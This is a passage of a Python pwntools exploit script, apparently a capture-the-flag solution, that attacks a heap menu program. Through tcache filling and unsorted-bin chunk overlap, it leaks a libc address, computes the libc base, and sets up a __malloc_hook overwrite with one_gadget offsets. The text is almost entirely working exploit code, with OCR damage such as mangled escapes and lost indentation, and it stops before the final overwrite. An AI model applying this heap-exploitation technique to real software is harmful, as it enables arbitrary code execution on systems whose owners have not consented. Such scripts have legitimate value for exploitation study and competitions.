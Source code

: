```

def delet(idx):
r.recvuntil("?n&gt; ")
r.sendline("2")
r.recvuntil("index n&gt; ")
r.sendline(str(idx))

def echo(idx):
r.recvuntil("?n&gt; ")
r.sendline("3")
r.recvuntil("index n&gt; ")
r.sendline(str(idx))

#MAIN EXPLOIT

#memory leak
#prepare for EG attack ,we will build a chunk with presize 0x200
for i in range(10):
newz()
#fill tcache
for i in range(3,10):
delet(i)
#chunk0 1 merge to ustbin, and the chunk2.presize will be 0x200
delet(0)
delet(1)
delet(2) #to make presize stable;maybe only link change both presize and sizeinuse, unlink only change inuse
#x = input("debug")
#then our target is cross-merge
#for cross-merge we must make sure that chunk0 is freed for bypass
#clean tcache
for i in range(7):
newz() #idx.0~7
#x = input("debug33")
newz() #idx.7 chunk0
#x = input("debug33")
newz() #idx.8 chunk1
#x = input("debug33")
newz() #idx.9 chunk2
#x = input("debugggg")
#fill tcache
for i in range(0,7):
delet(i)
#chunk0 into unsorted bin to correct fd &amp; bk for bypass unlink check
delet(7)
#out a chunk from tcache to give a space for chunk1 in-out ,in order to prevent merging again
newz() #idx.0
delet(8)
new(0xf8,'x00') #idx.1 ,we hold it
delet(0) #give back idx.0 to refill tcache
delet(9) #fire
#x = input("debug0")
#clean tcache
for i in range(7):
newz() #idx:0 , 2~7
newz() #idx.8 to cut chunk0, now chunk1.fd &amp; bk point unsorted bin merging with chunk2
#x = input("debug")
echo(1)
unsorted_bin = u64(r.recv(6).ljust(8,'x00'))
libc_base = unsorted_bin - 0x3dac78
print(hex(libc_base))
malloc_hook = libc_base + 0x3dac10
onegadget = libc_base + 0xfdb8e #0x47ca1 #0x7838e #0x47c9a #0xfccde
```
